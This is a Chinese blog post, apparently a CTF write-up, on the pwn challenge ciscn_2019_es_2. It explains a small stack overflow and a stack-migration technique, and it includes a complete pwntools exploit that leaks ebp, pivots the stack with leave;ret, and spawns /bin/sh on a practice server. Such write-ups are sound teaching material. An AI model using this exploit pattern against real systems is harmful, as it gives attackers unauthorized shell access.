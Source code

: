 ```yaml
---
layout: post
title:  ciscn_2019_es_2
date:   2021-02-06 00:01:01 +0300
image:  2021-02-06-birds.jpg
tags:   [ctf,PWN,ciscn2019,StackMigration]
---
```


#### main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

### nul()

```assembly
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

该函数存在溢出，但是只能溢出0x30-0x28=0x8个字节。常规溢出的话，不能满足我们的要求。

可以看到程序中还有一个hack()函数，但是没有被调用过。

```assembly
int hack()
{
  return system("echo flag");
}
```

这里调用了system函数，但是显然system()中的参数对我们来说没用。

我们可以利用栈迁移，将栈迁移到栈上。

通过第一次read(),先泄露出ebp的地址。然后计算偏移量得到要迁移到的栈的地址。

```assembly
# -*-coding:utf-8-*-
from pwn import *

io = remote("node3.buuoj.cn",25040)

payload = "a"*0x28
# 把ebp前面的空间填满，避免下面的print遇到\x00截断，然后顺利得到ebp的地址。
io.send(payload)

io.recvuntil("Hello, ")
io.recv(0x28)

ebp = u32(io.recv(0x4))
print(ebp)
s = ebp - 0x38

system = 0x8048400
leave_ret = 0x8048562
payload = "aaaa"
# payload将system函数写第一个，
# 那么在用leave；ret劫持栈的时候要抬高4字节。
payload += p32(system) + p32(0) + p32(s+0x10) + "/bin/sh"
payload = payload.ljust(0x28, "\x00")
# 实现栈迁移
payload += p32(s) + p32(leave_ret)
io.sendline(payload)

io.interactive()
```

这里的0x38

![]({{site.baseurl}}/img/2021-02-06-addr.jpg)

0xffffcfd8-0xffffcfa0=0x38

从而得到变量s在栈上的地址。